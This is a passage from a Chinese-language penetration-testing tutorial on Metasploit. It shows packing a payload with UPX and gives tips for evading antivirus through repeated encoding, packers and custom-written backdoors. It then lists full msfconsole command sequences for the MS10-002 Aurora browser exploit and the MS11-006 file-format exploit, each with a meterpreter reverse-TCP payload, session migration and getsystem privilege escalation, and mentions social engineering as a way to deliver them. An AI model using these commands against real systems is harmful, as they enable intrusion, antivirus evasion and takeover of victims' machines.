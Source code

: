最新版可到sf.net下载

使用方法：

`upx -5 /var/www/payload3.exe`


还有另外一个工具msfvenom结合了msfpayload和msfencode的功能，使用起来更省心，亲，一定要试试哦！过杀软总结起来就是多次编码和使用多种壳，终极大法就是使用自己编写的后门（市面上没有，被杀几率更低）。


## 八．使用用户端攻击方式(client-side attacks)


### 1、组合型攻击

主要指利用多种途径包括社会工程学方式攻击目标机器上安装的带有漏洞的程序如浏览 器，pdf阅读器，office软件等，最终获取系统权限。


基于浏览器的攻击：

例子：

```
msf> use windows/browser/ms10_002_aurora
set payload windows/meterpreter/reverse_tcp
set SRVPORT 80
set URIPATH /
set LHOST 192.168.1.111
set LPORT 443
exploit –z
sessions –i 1
run migrate
```

或者:

```
msf> use windows/browser/ms10_002_aurora
show advanced
set ReverseConnectRetries 10
set AutoRunScript migrate –f
exploit
use priv
getsystem
```

### 2、文件格式exploit


利用文件格式的漏洞达到溢出的目的，比如PDF，word，图片等。

例子：

```
msf> use windows/fileformat/ms11_006_createsizeddibsection
info
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.1.111
set LPORT 443
exploit
```
